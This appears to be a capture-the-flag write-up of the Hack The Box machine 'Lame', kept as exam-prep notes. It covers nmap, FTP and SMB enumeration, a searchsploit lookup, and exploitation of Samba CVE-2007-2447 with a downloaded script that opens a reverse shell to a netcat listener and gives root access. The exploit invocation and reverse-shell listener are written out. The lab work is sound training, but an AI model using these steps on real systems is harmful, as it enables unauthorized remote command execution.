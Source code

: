 ![[Pasted image 20220623155843.png]]
#Samba
# Discovery
---
## NMAP
```bash
─[us-vip-4]─[10.10.14.8]─[htb-ghohst@pwnbox-base]─[~]
└──╼ [★]$ sudo nmap -sC -sV 10.10.10.3
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-23 20:25 BST
Nmap scan report for 10.10.10.3
Host is up (0.0054s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.8
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2022-06-23T15:25:54-04:00
|_clock-skew: mean: 2h00m23s, deviation: 2h49m44s, median: 21s
```

## FTP
Connected to FTP Anonymously, doesn't appear to be anything there (only directories were . and .. navigating around didn't show anything promising)
```bash
─[us-vip-4]─[10.10.14.8]─[htb-ghohst@pwnbox-base]─[~]
└──╼ [★]$ ftp 10.10.10.3
Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
Name (10.10.10.3:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
226 Directory send OK.
```

## SMB
SMBMap seems to find something interesting in tmp ('oh noes!' - probably because it's anonymous read/write)
```bash
─[us-vip-4]─[10.10.14.8]─[htb-ghohst@pwnbox-base]─[~]
└──╼ [★]$ smbmap -H 10.10.10.3
[+] IP: 10.10.10.3:445	Name: 10.10.10.3                                        
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	NO ACCESS	Printer Drivers
	tmp                                               	READ, WRITE	oh noes!
	opt                                               	NO ACCESS	
	IPC$                                              	NO ACCESS	IPC Service (lame server (Samba 3.0.20-Debian))
	ADMIN$                                            	NO ACCESS	IPC Service (lame server (Samba 3.0.20-Debian))
```

Recursive file search shows a few files inside of TMP:
```bash
─[us-vip-4]─[10.10.14.8]─[htb-ghohst@pwnbox-base]─[~]
└──╼ [★]$ smbmap -R -H 10.10.10.3
[+] IP: 10.10.10.3:445	Name: 10.10.10.3                                        
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	NO ACCESS	Printer Drivers
	tmp                                               	READ, WRITE	oh noes!
	.\tmp\*
	dr--r--r--                0 Thu Jun 23 20:55:02 2022	.
	dw--w--w--                0 Sat Oct 31 06:33:57 2020	..
	dr--r--r--                0 Thu Jun 23 20:47:03 2022	.ICE-unix
	dw--w--w--                0 Thu Jun 23 20:47:31 2022	vmware-root
	dr--r--r--                0 Thu Jun 23 20:47:28 2022	.X11-unix
	fw--w--w--               11 Thu Jun 23 20:47:28 2022	.X0-lock
	fw--w--w--                0 Thu Jun 23 20:48:05 2022	5563.jsvc_up
	fw--w--w--             1600 Thu Jun 23 20:47:01 2022	vgauthsvclog.txt.0
	.\tmp\.X11-unix\*
	dr--r--r--                0 Thu Jun 23 20:47:28 2022	.
	dr--r--r--                0 Thu Jun 23 20:55:02 2022	..
	fr--r--r--                0 Thu Jun 23 20:47:28 2022	X0
	opt                                               	NO ACCESS	
	IPC$                                              	NO ACCESS	IPC Service (lame server (Samba 3.0.20-Debian))
	ADMIN$                                            	NO ACCESS	IPC Service (lame server (Samba 3.0.20-Debian))
```

This command will allow us to download files, vgauth stood out, but perhaps I'm not looking at the right thing as it is empty:
```bash
─[us-vip-4]─[10.10.14.8]─[htb-ghohst@pwnbox-base]─[~]
└──╼ [★]$ gedit 10.10.10.3-tmpvgauthsvclog.txt.0
```

# Exploitation
---
## SAMBA
We saw that the server itself is running 3.0.20 (Samba) so let's read about any potential exploits.

Identified this link: [## CVE-2007-2447](https://nvd.nist.gov/vuln/detail/CVE-2007-2447
>The MS-RPC functionality in smbd in Samba 3.0.0 through 3.0.25rc3 allows remote attackers to execute arbitrary commands via shell metacharacters involving the (1) SamrChangePassword function, when the "username map script" smb.conf option is enabled, and allows remote authenticated users to execute commands via shell metacharacters involving other MS-RPC functions in the (2) remote printer and (3) file share management.

Performed some searchsploit checks and found this as well
[Link](https://www.exploit-db.com/exploits/16320) 
```bash
[us-vip-4]─[10.10.14.8]─[htb-ghohst@pwnbox-base]─[~]
└──╼ [★]$ searchsploit samba 3.0.20
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
Samba 3.0.10 < 3.3.5 - Format String / Securi | multiple/remote/10095.txt
Samba 3.0.20 < 3.0.25rc3 - 'Username' map scr | unix/remote/16320.rb
Samba < 3.0.20 - Remote Heap Overflow         | linux/remote/7701.txt
Samba < 3.0.20 - Remote Heap Overflow         | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial of Service (PoC) | linux_x86/dos/36741.py
---------------------------------------------- ---------------------------------
Shellcodes: No Results
─[us-vip-4]─[10.10.14.8]─[htb-ghohst@pwnbox-base]─[~]
└──╼ [★]$ searchsploit -p 16320
  Exploit: Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)
      URL: https://www.exploit-db.com/exploits/16320
     Path: /usr/share/exploitdb/exploits/unix/remote/16320.rb
File Type: Ruby script, ASCII text

Copied EDB-ID #16320's path to the clipboard
─[us-vip-4]─[10.10.14.8]─[htb-ghohst@pwnbox-base]─[~]
└──╼ [★]$ searchsploit -w 16320
---------------------------------------------------------------------------- --------------------------------------------
 Exploit Title                                                              |  URL
---------------------------------------------------------------------------- --------------------------------------------
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasp | [Link](https://www.exploit-db.com/exploits/16320) 
---------------------------------------------------------------------------- --------------------------------------------
Shellcodes: No Results
```

Looks like these are all metasploit, and we're trying to avoid its usage for the exam. 
Found a github python script to do the manual exploitation: [Link](https://github.com/amriunix/CVE-2007-2447) 
This video explains how to walk through exploitation (both manual and via metasploit) [Link](https://www.youtube.com/watch?v=HPP70Bx0Eck)

First attempt was a failure because I had not installed the PYSMB module in order to import the SMBConnection:
```bash
└──╼ [★]$ python -m pip install pysmb
Collecting pysmb
  Downloading pysmb-1.2.8.zip (1.3 MB)
     |████████████████████████████████| 1.3 MB 5.3 MB/s 
---
Successfully built pysmb
Installing collected packages: pysmb
Successfully installed pysmb-1.2.8
```

Ran the script, with appropriate perameters, all while running a netcat listener in a separate terminal, and can see that the connection was established:
```bash
─[us-vip-4]─[10.10.14.8]─[htb-ghohst@pwnbox-base]─[~/CVE-2007-2447]
└──╼ [★]$ python3 usermap_script.py 10.10.10.3 445 10.10.14.8 5000
[*] CVE-2007-2447 - Samba usermap script
[+] Connecting !
[+] Payload was sent - check netcat !
```
```bash
─[us-vip-4]─[10.10.14.8]─[htb-ghohst@pwnbox-base]─[~/CVE-2007-2447]
└──╼ [★]$ nc -nvlp 5000
listening on [any] 5000 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.3] 34178
```

### Privilege Escalation
---
1. Identified linux version/type via uname (GNU)
2. Identified current user (root)
3. Ran a find search to locate 'user.txt' (which is typically our user flag)
4. Cat'd out User.txt and pulled the flag
5. Cd'd back out into the root user folder and saw root.txt
6. Cat'd out root.txt and pulled the flag

```bash
whoami
root
uname -a
Linux lame 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
find /* -name user.txt
/home/makis/user.txt
cat /home/makis/user.txt
[redacted]
find /* -name root.txt
/root/root.txt
cat /root/root.txt
[redacted]
```